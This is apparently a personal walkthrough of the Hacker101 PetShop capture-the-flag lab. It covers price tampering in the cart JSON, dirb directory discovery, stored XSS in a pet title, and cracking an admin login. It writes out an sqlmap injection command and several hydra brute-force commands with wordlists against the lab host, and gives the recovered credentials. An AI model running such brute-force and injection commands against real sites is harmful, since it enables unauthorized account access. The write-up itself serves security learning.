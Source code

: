 # PetShop CTF

## flag0 found

The checkout accepted a JSON of the cart. So you could set the price to 0 and

## Web crawling and directory brute force:

The hint for the next flag was that there was an admin page and after trying some guesses I tried to find tools to search the site for other pages.

I tried Metasploit with the below module and wmap but i could not get it to work but I did not try very hard.
https://github.com/flibustier/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/http/crawler.md

I also tried recon-ng and explored the below modules but none seemed to do what I wanted on the surface.
recon/domains-contacts/metacrawler
recon/domains-domains/brute_suffix
recon/domains-hosts/brute_hosts
recon/domains-vulnerabilities/xssed
recon/domains-vulnerabilities/ghdb

I finally found dirb which was a simple tool that worked like a charm, it found the following paths:

/edit
/login

Of course!!

## flag1 found

/edit title with a script tag and view cart.

It was possible to do an XSS attack on the pet title which would show up on the landing and cart page. So setting a script on the name and then viewing it in the cart showed the flag.

## flag2 found

/login I needed to get into the cms.

Sql injection was attempted with the below command but it did not work.
sqlmap -u https://c4858c57522b16e943eb970e26bb51cf.ctf.hacker101.com/login --data "username=a&password=b" -p username --dump

Used hydra with the built in word lists in kali linux to brute force the login.

This is taking a long time :D.

I am trying to get the username first and then the password afterwards.

hydra -L /usr/share/wordlists/john.lst -p aaa c4858c57522b16e943eb970e26bb51cf.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username" -S -F -V -R

I tried both fasttrack and john work lists and they both do not work.

So I increased the number of tasks and chose the rockyou word list instead.

hydra -L /usr/share/wordlists/rockyou.txt -p aaa c4858c57522b16e943eb970e26bb51cf.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username" -S -F -t 64

Username found: ainsley
Time to username: 33 minutes

hydra -l ainsley -P /usr/share/wordlists/rockyou.txt aeb3b9c5344b3adaee6084ce9ad86eca.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password" -S -F -t 64

Password found: shark
Time to password: 31 minutes
